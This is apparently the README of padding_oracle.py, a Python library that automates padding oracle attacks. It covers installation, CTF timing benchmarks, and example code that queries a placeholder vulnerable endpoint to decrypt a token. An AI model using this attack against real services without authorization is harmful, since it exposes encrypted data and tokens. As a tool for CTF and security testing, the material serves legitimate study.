 # padding_oracle.py

![python-package-badge](https://github.com/djosix/padding_oracle.py/actions/workflows/python-package.yml/badge.svg)

Fast threaded [padding oracle](https://en.wikipedia.org/wiki/Padding_oracle_attack) attack automation script for Python 3.

## Install

PyPI:

```shell
pip3 install -U padding_oracle
```

GitHub:

```shell
pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
```

## Performance

Tested on [0x09] Cathub Party from EDU-CTF:

| Request Threads | Execution Time |
|-----------------|----------------|
| 1               | 17m 43s        |
| 4               | 5m 23s         |
| 16              | 1m 20s         |
| 64              | 56s            |

## Usage

E.g. testing `https://vulnerable.website/api/?token=M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94%3D`:

```python
from padding_oracle import padding_oracle, base64_encode, base64_decode
import requests

sess = requests.Session() # use connection pool
url = 'https://vulnerable.website/api/'

def oracle(ciphertext: bytes):
    resp = sess.get(url, params={'token': base64_encode(ciphertext)})

    if 'failed' in resp.text:
        return False # e.g. token decryption failed
    elif 'success' in resp.text:
        return True
    else:
        raise RuntimeError('unexpected behavior')

ciphertext: bytes = base64_decode('M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94=')
# len(ciphertext) is 32
# possibly be "IV + cipher block" if block size is 16

assert len(ciphertext) % 16 == 0

plaintext = padding_oracle(
    ciphertext,
    block_size = 16,
    oracle = oracle,
    num_threads = 16,
)
```

This package also provides PHP-like encoding/decoding functions:

```python
from padding_oracle.encoding import (
    urlencode,
    urldecode,
    base64_encode,
    base64_decode,
)
```

## License

This project is licensed under the terms of the MIT license.

<!-- PiuPiuPiu -->
